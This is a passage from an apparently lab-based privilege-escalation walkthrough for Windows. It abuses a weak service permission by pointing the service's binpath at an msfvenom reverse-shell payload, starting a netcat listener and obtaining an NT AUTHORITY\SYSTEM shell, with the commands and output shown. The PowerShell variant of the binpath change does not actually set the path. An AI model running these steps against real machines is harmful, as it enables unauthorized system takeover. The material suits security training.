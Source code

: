 Looks like powershell has a better way to give more information of what we can do with it.

## 02 - Exploit

From the enumeration phase we know this is a manual service start mode. So we have to enable it manually to receive a reverse shell connection since we have permission to do so. This is what the syntax looks like to modify the configuration to our reverse shell.

`C:\> sc config <servicesvc> binpath="<path_to_shell>"`

Generate a stageless reverse shell via `msfvenom` tool and then use any of the **file transfer techniques** then let's copy our reverse shell in the `C:\Temp` folder. Why stageless? The reason is if we use staged payloads it will stop the payload right away before it finishes which is why stageless payloads is a suitable job for this vector attack.

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=53 -f exe -o shell.exe`

- In command prompt

```
C:\> copy shell.exe c:\temp\

C:\> sc config daclsvc binpath="\"c:\temp\shell.exe"
```

- In powershell

```
PS C:\> copy-item shell.exe -destination c:\temp\

PS C:\> Set-Service -Name daclsvc -DisplayName "DACL Service"
```

And start the reverse shell handler with netcat

`$ sudo nc -lnvp 53`

Then execute the service manually

- In command prompt

```
C:\> net start daclsvc

C:\> sc start daclsvc
```

- In powershell

`PS C:\> Start-Service daclsvc`

We have elevated to `NT AUTHORITY\SYSTEM`

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.145.32.
Ncat: Connection from 10.10.145.32:49859.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
